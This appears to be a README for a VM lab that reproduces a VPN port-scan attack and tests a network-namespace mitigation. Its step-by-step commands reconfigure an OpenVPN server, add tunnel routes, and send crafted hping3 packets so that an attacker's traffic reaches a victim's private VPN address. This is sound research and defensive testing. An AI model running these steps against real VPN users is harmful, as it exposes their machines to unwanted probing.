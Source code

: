 # Overview
This document outlines the process for performing the port scan attack with and without network namespaces.
## Environment Setup

1. Start the VMs

```bash
$ ./boot_all.sh
```

2. SSH to the Attacker, Attacker2, victim and VPN server on 4 terminals 

```bash
$ vagrant ssh attacker
$ vagrant ssh attacker2
$ vagrant ssh victim
$ vagrant ssh vpnserver
```
## VPN Server setup
On the VPN server, setup client specific configuration. This allows for the same private IP to be allocated to both attacker and client.
```bash
$ sudo bash -c 'sudo echo "client-config-dir ccd" >> /etc/openvpn/server.conf'
$ sudo mkdir /etc/openvpn/ccd
$ sudo bash -c 'sudo echo "ifconfig-push 10.8.0.6 255.255.255.0" > /etc/openvpn/ccd/ChangeMe'
$ sudo systemctl restart openvpn@server
```

## Port Scan Without Namespaces
### Attacker
1. Connect to the VPN server

```bash
$ cd /vagrant/
$ sudo openvpn client2.ovpn
```

2. Make sure the attacker traffic to second attacker machine gets sent through the VPN tunnel.
```bash
$ sudo ip route add 192.168.254.3/24 dev tun0
```

3. Send packets to the second attacker controlled machine
```bash
$ sudo hping3 -2  -s 56666 -k -p 56666 192.168.254.3
```

4. Disconnect the attacker from the VPN server.

```bash
$ sudo killall openvpn
```

### Victim
5. Connect to the VPN and listen on the tunnel.
```bash
$ sudo openvpn --config /vagrant/client1.ovpn 
$ sudo tcpdump -i tun0
```
### Attacker2
6. Start sending packets to the VPN.
```bash
$ sudo hping3 -2  -s 56666 -k -p 56666 192.168.2.254
```
Within a minute, you should be able to see traffic from the Attacker2 machine sent to the victim's private IP.

## Port Scan With Namespaces
### Attacker
1. Connect to the VPN server

```bash
$ cd /vagrant/
$ sudo openvpn client2.ovpn
```

2. Make sure the attacker traffic to second attacker machine gets sent through the VPN tunnel.
```bash
$ sudo ip route add 192.168.254.3/24 dev tun0
```

3. Send packets to the second attacker controlled machine
```bash
$ sudo hping3 -2  -s 56666 -k -p 56666 192.168.254.3
```

4. Disconnect the attacker from the VPN server.

```bash
$ sudo killall openvpn
```

### Victim
5. Connect to the VPN and listen on the tunnel.
```bash
$ sudo /vagrant/namespaced-openvpn --config /vagrant/client1.ovpn
$ sudo ip netns exec protected sudo -u $USER -i 
$ sudo tcpdump -i tun0
```
### Attacker2
6. Start sending packets to the VPN.
```bash
$ sudo hping3 -2  -s 56666 -k -p 56666 192.168.2.254
```
Within a minute, you should be able to see traffic from the Attacker2 machine sent to the victim's private IP. This might take a bit longer than without the namespaces.